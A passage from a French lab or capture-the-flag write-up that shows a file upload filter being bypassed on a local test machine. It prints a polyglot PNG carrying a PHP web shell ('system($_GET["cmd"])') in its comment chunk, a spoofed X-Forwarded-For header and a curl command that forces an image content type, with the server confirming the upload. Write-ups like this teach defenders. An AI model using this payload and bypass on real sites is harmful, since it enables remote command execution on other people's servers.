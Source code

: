 Grosse surprise : tout passait !

Les explications se voient avec Wireshark, il s'avère que curl ne fait pas vraiment de mime sniffing, il doit se baser sur l'extension du fichier :

```http
POST /adminstration/upload/ HTTP/1.1
Host: 192.168.56.112
User-Agent: curl
Accept: */*
X-Forwarded-For: 127.0.0.1
Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;
Content-Length: 664
Content-Type: multipart/form-data; boundary=------------------------NYhRMJrgWYvw8DqKtNxb5V

--------------------------NYhRMJrgWYvw8DqKtNxb5V
Content-Disposition: form-data; name="document"; filename="1x1.php"
Content-Type: application/octet-stream

.PNG
.
...
IHDR.............7n.$... cHRM..z&..............u0...`..:....p..Q<....bKGD..........tIME......".\<1...%tEXtdate:create.2025-06-26T15:24:34+00:00...,...%tEXtdate:modify.2025-06-26T15:24:34+00:00.^.....(tEXtdate:timestamp.2025-06-26T15:24:34+00:00.K.O...&tEXtComment.<?php system($_GET["cmd"]); ?>...c...
IDAT..ch.......Cj.....IEND.B`.
--------------------------NYhRMJrgWYvw8DqKtNxb5V
Content-Disposition: form-data; name="submit"

Send
--------------------------NYhRMJrgWYvw8DqKtNxb5V--
```

Heureusement, on peut jouer avec le paramètre curl pour spécifier le bon content-type :

```console
$ curl -s -D- http://192.168.56.112/adminstration/upload/ -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;" -X POST -F 'document=@/tmp/1x1.php;type=image/png' -F "submit=Send"
HTTP/1.1 200 OK
Date: Thu, 26 Jun 2025 15:29:03 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3030
Content-Type: text/html

file uploadad files/17509517431x1.php
```
